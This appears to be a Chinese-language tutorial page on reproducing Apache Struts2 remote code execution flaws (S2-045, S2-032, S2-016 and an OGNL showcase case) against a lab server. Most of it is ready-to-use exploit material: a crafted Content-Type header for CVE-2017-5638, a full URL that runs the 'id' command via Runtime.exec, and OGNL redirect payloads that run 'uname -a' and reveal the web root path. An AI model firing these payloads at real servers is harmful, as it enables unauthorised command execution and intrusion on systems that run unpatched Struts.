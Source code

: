 影响版本: 2.0.0 – 2.3.32
访问：http://your-ip:8080/showcase/
触发OGNL表达式的位置是Gangster Name这个表单。
输入${233*233}即可查看执行结果（剩下两个表单随意填写）：

S2-045 远程代码执行漏洞（CVE-2017-5638）

影响版本: Struts 2.3.5 – Struts 2.3.31, Struts 2.5 – Struts 2.5.10
环境启动后，访问http://your-ip:8080即可看到上传页面。
直接发送如下数据包，233*233成功执行该漏洞就是存在
Default
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('test',233*233)}.multipart/form-data

S2-032 远程代码执行漏洞（CVE-2016-3081）

Struts2在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用method:<name>的方式来调用名字是<name>的方法，而这个方法名将会进行OGNL表达式计算，导致远程命令执行漏洞。
直接请求如下URL，即可执行id命令：
Default
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id

S2-016 远程代码执行漏洞（CVE-2013-2251）

在struts2中，DefaultActionMapper类支持以”action:”、”redirect:”、”redirectAction:”作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令。
所以，访问http://your-ip:8080/index.action?redirect:OGNL表达式即可执行OGNL表达式。
执行命令：
Default
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
获取web目录：
Default
redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}
